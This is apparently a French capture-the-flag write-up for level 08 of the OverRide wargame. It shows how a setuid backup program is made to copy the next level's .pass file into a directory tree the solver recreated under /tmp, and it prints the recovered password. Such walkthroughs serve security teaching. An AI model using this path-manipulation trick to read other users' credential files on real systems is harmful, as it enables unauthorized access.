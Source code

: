 ## LEVEL 08

Lorsqu'on lance le programme sans arguments, il nous donne l'usage :

```
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open (null)
```

Il faut donc ouvrir le programme avec un fichier.

On voit en analysant le binaire que celui-ci essaie de créer un backup.

On essaie alors de créer un fichier dans tmp et on essaie de mettre celui-ci en argument.

```
level08@OverRide:~$ ./level08 /tmp/arg
ERROR: Failed to open ./backups//tmp/arg
```
Ça ne fonctionne pas, essayons d'ouvrir le .pass du level09.
```
level08@OverRide:~$ ./level08 ~level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```
Le programme ajoute /backups/  à notre path. Le problème est que cela fausse notre argument.

On doit alors créer le même path dans le tmp pour que le programme puisse y accéder il faut toujours le lancer à partir de tmp.

```
level08@OverRide:/tmp$ mkdir -p ./backups//home/users/level09/
```
On relance le programme avec le .pass du level09 et cette fois-ci il devrait trouver un endroit où créer le backup.

```
level08@OverRide:/tmp$ ~/level08 ~level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
